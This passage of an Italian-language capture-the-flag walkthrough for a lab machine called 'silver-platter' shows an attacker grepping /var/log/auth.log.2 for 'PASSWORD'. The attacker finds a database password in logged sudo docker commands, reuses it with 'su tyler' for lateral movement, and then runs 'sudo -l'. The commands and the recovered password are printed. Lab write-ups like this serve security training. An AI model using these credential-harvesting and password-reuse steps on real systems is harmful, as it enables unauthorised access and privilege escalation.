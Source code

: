 ```
drwxr-xr-x   2 root      adm               4096 Jun 21 07:25 nginx
drwx------   2 root      root              4096 Aug 10  2023 private
-rw-r-----   1 syslog    adm              76504 Jun 21 09:58 syslog
-rw-r-----   1 syslog    adm             395046 Jun 21 07:25 syslog.1
-rw-r-----   1 syslog    adm              47656 May  8  2024 syslog.2.gz
-rw-r-----   1 syslog    adm             147601 May  1  2024 syslog.3.gz
-rw-r--r--   1 root      root                 0 Aug 10  2023 ubuntu-advantage.log
drwxr-x---   2 root      adm               4096 Jun 21 07:25 unattended-upgrades
-rw-rw-r--   1 root      utmp             25728 Jun 21 09:34 wtmp

```

troviamo interessante il contenuto del file auth.log.2
visto che è abbastanza grande facciamo un tentativo di ricerca mirato alla password
```
cat auth.log.2|grep "PASSWORD"
```
```
tim@silver-platter:/var/log$ cat auth.log.2|grep "PASSWORD"
Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3
Dec 13 15:44:30 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database sivlerpeas:silverpeas-6.3.1
Dec 13 15:45:21 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:silverpeas-6.3.1
Dec 13 15:45:57 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name silverpeas -p 8080:8000 -d -e DB_NAME=Silverpeas -e DB_USER=silverpeas -e DB_PASSWORD=_Zd_zx7N823/ -v silverpeas-log:/opt/silverpeas/log -v silverpeas-data:/opt/silvepeas/data --link postgresql:database silverpeas:6.3.1
```

troviamo una password di db
```
DB_PASSWORD=_Zd_zx7N823/
```
proviamo a vedere se è utile per autenticarci come utente tyler visto che è presente nei log
```
su tyler
```
password
```
_Zd_zx7N823/
```
ed abbiamo effettuato con successo un movimento laterale
```
tim@silver-platter:/var/log$ su tyler
Password: 
tyler@silver-platter:/var/log$ 
```
facciamo 
```
sudo -l
```
e vediamo che abbiamo tutti i privilegi
```
tyler@silver-platter:/var/log$ sudo -l
[sudo] password for tyler: 
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

```